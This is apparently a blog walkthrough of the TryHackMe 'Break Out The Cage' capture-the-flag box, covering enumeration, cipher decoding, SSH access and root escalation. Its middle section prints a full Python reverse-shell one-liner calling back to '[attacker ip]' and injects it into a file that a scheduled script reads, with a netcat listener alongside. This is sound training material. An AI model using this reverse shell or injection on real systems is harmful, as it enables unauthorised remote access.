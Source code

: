 ```yaml
---
layout: post
title: "Break Out The Cage - TryHackMe"
date: 2020-07-11
excerpt: "Walkthrough for Break Out The Cage on TryHackme"
tags: [Break Out The Cage, TryHackMe, encryption, email]
comments: false
---
```




Break Out the Cage is another recently released easy box on [TryHackme](https://www.tryhackme.com). Let's start off with a port scan with **nmap -p- -T4 [machine ip]** This will return 3 open ports: ftp, ssh, and http. 

![Break Out The Cage nmap1](/assets/img/BreakOutTheCage1.png)

Let's enumerate these 3 ports with **nmap -sC -sV -O -p 21,22,80 [machine ip]**.

![Break Out The Cage nmap2](/assets/img/BreakOutTheCage2.png)

It appears that there is anonymous FTP access open, let's login as anonymous with **ftp [machine ip]** and enter **anonymous** for the username and password. We are able to successfully connect. I tried to list the directory and received an error so I change the mode to passive with **passive** and I was able to run **ls**. There was a file named **dad_tasks**, that I saved locally to my machine with **get dad_tasks**. I then exited the FTP site with **bye**.

![Break Out The Cage ftp dad_tasks](/assets/img/BreakOutTheCage3.png)

Running **cat dad_tasks** from my local machine gives me results that are encoded, most likely in base 64.

![Break Out The Cage cat dad_tasks](/assets/img/BreakOutTheCage4.png)

Let's run **cat dad_tasks | base64 -d** to decode it from base64. This gives us a different type of encoding.

![Break Out The Cage base64 decode](/assets/img/BreakOutTheCage5.png)

This appears to be some sort of cipher. I tried several, and ended up finding out it is a Vigenere cipher. Since I didn't have the key, I used a [Vigenere solver](https://www.guballa.de/vigenere-solver) to assist with cracking this, which results in the following.

![Break Out The Cage Vigenere Cipher](/assets/img/BreakOutTheCage6.png)

The last line contains what appears to be Weston's password, which is the answer to question one.

Now that we have a password, let's try to ssh in as weston with **ssh weston@[machine ip]**. Enter the password that was recovered above. Success, now we are logged in as weston.

![Break Out The Cage ssh user access](/assets/img/BreakOutTheCage7.png)

Let's see what weston can run as root with **sudo -l**. We are given the following results:

![Break Out The Cage sudo -l](/assets/img/BreakOutTheCage8.png)

Let's run that file and see what happens. It prints some text. Running **cat /usr/bin/bees** shows you that this is a bash script.

![Break Out The Cage bees](/assets/img/BreakOutTheCage25.png)

Unfortunately, we are not able to edit this file. However, every few minutes a broadcast message from cage comes up.

![Break Out The Cage broadcast](/assets/img/BreakOutTheCage9.png)

We are not able to access cage's home directory as weston. However, if we run **id**, we can see that weston is part of both the weston and cage groups

![Break Out The Cage id](/assets/img/BreakOutTheCage10.png)

Let's use **find / -group "cage" -print 2>/dev/null** to find all files with the group owner of cage.

![Break Out The Cage find](/assets/img/BreakOutTheCage12.png)

We already know we don't have access to /home/cage, but let's try to navigate to /opt/.dads_scripts/ with **cd /opt/.dads_scripts** and view directory contents and permissions with **ls -al**.

![Break Out The Cage dads_scripts](/assets/img/BreakOutTheCage13.png)

It appears we only have read to the python script, so we can't modify it directly. Let's view the contents of the script to see what it does with **cat spread_the_quotes.py**.

![Break Out The Cage spread_the_quotes.py](/assets/img/BreakOutTheCage14.png)

It looks like it is opening a file in /opt/.dads_scripts/.files/.quotes and reading a random line and then echoing it. Let's navigate to that directory with **cd /opt/.dads_scripts/.files/**. Next let's run **ls -al**. It appears we have access to write to the **.quotes** file as the cage group has write permissions to it.

![Break Out The Cage .files](/assets/img/BreakOutTheCage15.png)

Let's run **vi .quotes** to open up the contents for editing and delete everything out of the file. This can be done by pressing **dd** over and over until all the lines are deleted. Next, press Insert and  **-- INSERT --** should show up at the bottom of the screen. This allows you to enter in new information. Let's enter the following: **"test" && python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[attacker ip]",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'**. This will end the wall command's input which will send out test as a broadcast, and then && will run the command after, which is a way to create a reverse shell with python. We know this shell will work due to the fact that python scripts are running on this machine already. Next, press escape followed by **:wq!** to write and quit vim. 

![Break Out The Cage .quotes](/assets/img/BreakOutTheCage16.png)

In another terminal window, run **nc -nvlp 4444** and wait a few minutes for the script to run. You should receive a reverse shell connection as cage. Running **whoami** confirms this and running **ls -al** shows an **email_backup** directory and a file called **Super_Duper_Checklist**. Let's view the contents of the Checklist first with **cat Super_Duper_Checklist**.

![Break Out the Cage cat Super_Duper_Checklist](/assets/img/BreakOutTheCage18.png)

This is the user flag for this box. Let's now see if cage has any sudo level permissions. Let's run **sudo -l**. Unfortunately, it asks for cage's password which we do not have. Let's go review the email_backup folder by typing in **cd email_backup**. Running **ls -al** shows 3 files here. Using **cat em*** will type the contents of all 3 emails.

![Break Out The Cage email_backup](/assets/img/BreakOutTheCage19.png)

The emails mention a Face Off sequel and have several references to the word face in them. The last email has something interesting in it based on a weird note from the agent.

![Break Out The Cage email_3](/assets/img/BreakOutTheCage20.png)

This appears to be another encrypted message. Let's see if this is also a Vigenere cipher. The word face is mentioned over and over and over in these emails, so let's see if that's the key to the cipher. Since we are assuming this is the correct key, let's use this [Vigenere Cipher Decoder](https://www.boxentriq.com/code-breaking/vigenere-cipher) to decode the cipher.

![Break Out The Cage Vignere Cipher Decoder](/assets/img/BreakOutTheCage21.png)

In the 3rd email, it states that it likely has something to do with his account on this server. Since there are no other users, it's safe to assume that this could potentially be the password for root. Let's run **su root** and enter the password we obtained above.

![Break Out The Cage su root](/assets/img/BreakOutTheCage22.png)

Success! We now have root access. Let's see if we can find the root flag now. Let's navigate to root's home folder with **cd /root** and run **ls -al**. We will see an email_backup folder. Let's navigate to it with **cd email_backup** and run **ls **, we see two emails in this folder.

![Break Out The Cage finding root flag](/assets/img/BreakOutTheCage23.png)

Let's run **cat em*** to view their contents. In the bottom of the second email is the root flag.

![Break Out The Cage Root Flag](/assets/img/BreakOutTheCage24.png)

This is the root flag for this challenge!
